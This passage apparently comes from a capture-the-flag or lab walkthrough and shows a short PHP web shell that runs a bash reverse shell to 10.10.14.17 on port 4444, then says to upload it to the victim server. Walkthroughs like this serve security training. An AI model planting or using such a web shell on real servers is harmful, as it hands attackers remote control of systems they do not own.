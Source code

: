 - short web shell 

```
<?php


exec("/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.17/4444 0<&1'")

?>
```

    I prefer to use first one for this question.
    
    
- Upload the reverse shell to victim server 

![](./IMG/23.png)
![](./IMG/24.png)
